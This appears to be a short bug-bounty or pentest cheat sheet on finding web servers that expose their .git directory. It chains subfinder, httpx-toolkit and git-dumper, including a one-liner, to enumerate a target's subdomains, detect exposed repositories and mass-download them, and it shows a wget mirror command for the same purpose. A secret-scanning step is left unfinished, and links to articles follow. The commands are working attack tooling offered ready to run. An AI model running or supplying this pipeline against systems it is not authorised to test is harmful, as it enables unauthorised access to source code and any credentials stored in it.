 
## How to Hunt for Exposed .git Dorectories
- [ ] 
```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt 
or
cat subs.txt | httpx-toolkit -sc -server -cl -path "/.git/" -mc 200 -location -ms "Index of" -probe

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

## One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

## Manual .git Dump
```bash
wget --mirror -I .git https://example.com/.git/
```

## Scanning the Repo for Secrets
```bash
Need to add trufflehog and some others...
```


Resources
- [Web security - exposed .git folder in production](https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0)
- [Git Exposed - How to Identify and Exploit](https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37)
- [Red Book - Exposed Git Repositories](https://github.com/v4resk/red-book/blob/main/web/web-vulnerabilities/server-side/exposed-git-repositories.md)


